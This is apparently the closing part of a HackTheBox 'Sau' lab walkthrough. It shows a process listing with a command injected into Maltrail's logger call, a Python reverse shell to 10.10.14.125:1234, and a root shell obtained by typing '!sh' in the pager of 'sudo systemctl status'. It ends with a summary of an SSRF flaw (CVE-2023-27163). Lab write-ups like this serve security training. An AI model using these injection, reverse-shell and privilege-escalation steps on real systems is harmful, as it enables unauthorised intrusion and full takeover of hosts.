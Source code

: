 ```bash
             ├─15191 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfS>
             ├─15192 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfS>
             ├─15195 bash
             ├─15196 python3 -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.125",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)>
             ├─15197 bash
             ├─15232 script
             ├─15233 bash -i
             ├─15249 sudo /usr/bin/systemctl status trail.service
             ├─15250 /usr/bin/systemctl status trail.service
             ├─15251 pager
             ├─15252 sh -c /bin/bash -c sh
lines 1-41
```

When we run the command, a default pager is opened, which is likely to be `less`. In that case, we can type `!sh` to get root shell, since the `systemctl` process is running as `root`.

```bash
.
.
SNIP
.
.
             ├─15233 bash -i
             ├─15249 sudo /usr/bin/systemctl status trail.service
             ├─15250 /usr/bin/systemctl status trail.service
             ├─15251 pager
             ├─15252 sh -c /bin/bash -c sh
!sh
# 
# bash
root@sau:/opt/maltrail# id; whoami
uid=0(root) gid=0(root) groups=0(root)
root
root@sau:/opt/maltrail# 
root@sau:/opt/maltrail# 
root@sau:/opt/maltrail# hostname
sau
root@sau:/opt/maltrail# 
root@sau:/opt/maltrail# 
```

That worked! And we got `root` shell.

# CONCLUSION

In this writeup, we explored the **Sau** machine on **HackTheBox**. We identified an open port `55555` running a web application called `request-baskets`. Through this application, we found a **Server Side Request Forgery (SSRF)** vulnerability (`CVE-2023-27163`) that allowed us to access internal services running on the host.
